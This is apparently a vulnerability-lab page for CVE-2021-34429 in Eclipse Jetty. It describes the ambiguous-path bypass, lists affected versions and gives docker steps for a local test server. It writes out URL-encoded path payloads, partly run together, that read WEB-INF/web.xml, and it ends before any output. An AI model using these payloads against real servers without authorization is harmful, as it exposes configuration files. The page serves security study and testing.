


Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-34429)¶
Eclipse Jetty is a Java web server and Java Servlet container.
Jetty 9.4.40 fixed an ambiguous paths information disclosure vulnerability CVE-2021-28164, CVE-2021-34429 is a variation and bypass of it.
There are 3 types of payload that exfiltrate the content of WEB-INF/web.xml:
- Unicode based URL encoded:
/%u002e/WEB-INF/web.xml \0with.bug:/.%00/WEB-INF/web.xml\0with..bug:/a/b/..%00/WEB-INF/web.xml
The vulnerability affects the Jetty 9.4.37-9.4.42, 10.0.1-10.0.5, 11.0.1-11.0.5.
References:
- https://github.com/eclipse/jetty.project/security/advisories/GHSA-vjv5-gp2w-65vm
- https://xz.aliyun.com/t/10039
Vulnerable Application¶
Execute the following command to start a Jetty 9.4.40 server.
docker compose up -d
After the server starts, visit http://your-ip:8080 to see an example page.
Exploit¶
The sensitive file web.xml is not accessible through /WEB-INF/web.xml.

Use payload /%u002e/WEB-INF/web.xml to bypass the restriction:
